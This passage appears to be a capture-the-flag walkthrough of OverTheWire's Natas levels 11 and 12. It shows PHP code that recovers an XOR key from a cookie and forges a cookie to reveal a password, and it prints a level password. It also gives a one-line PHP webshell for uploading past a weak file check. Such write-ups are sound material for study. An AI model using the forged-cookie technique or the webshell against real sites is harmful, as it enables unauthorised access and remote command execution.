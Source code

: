 we need to pass a cookie that has `showpassword` as `yes` so we can get the password.

The first thing we need to do however is get the key, we can do this by xoring the cookie by the default array in JSON. (We're going to use PHP for this one)

> ```php
> <?php
> $text = json_encode(array( "showpassword"=>"no", "bgcolor"=>"#ffffff")); 
> $key = base64_decode("HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg%3D");
> $outText = '';
> for ($i=0;$i<strlen($text);$i++) {
>   $outText .= $text[$i] ^ $key[$i % strlen($key)];
> }
> print $outText;
> print "\n";
> ?>
> ```

The key repeats, so the result is actually `eDWo`. With this we can place the key accordingly to get a cookie with the value.

> ```php
> <?php
> $text = json_encode(array( "showpassword"=>"yes", "bgcolor"=>"#ffffff")); 
> $key = "eDWo";
> $outText = '';
> for ($i=0;$i<strlen($text);$i++) {
>   $outText .= $text[$i] ^ $key[$i % strlen($key)];
> }
> print base64_encode($outText);
> print "\n";
> ?>
> ```

We get our new cookie! `HmYkBwozJw4WNyAAFyB1VUc9MhxHaHUNAic4Awo2dVVHZzEJAyIxCUc5`

Put this in your cookie editor and refresh the page.

```
The password for natas12 is yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB
```

# 12

```
Username: natas12
URL:      http://natas12.natas.labs.overthewire.org
```

We get to input JPEG files. When I input a file, it seems that the only thing it checks for is if the file exceeds 1kb in size, otherwise it uploads and becomes accessible through the website. 

What we should upload instead is a PHP file that lets us execute shell commands through the website. A PHP webshell I found was ``<?php echo passthru($_GET['cmd']); ?>``, just put that on a file.

However, it renames the file with a random string and puts .jpg in the end. Looking through the source code it seems that the new filename is generated when we visit the site, and is stored on the html at line 17.
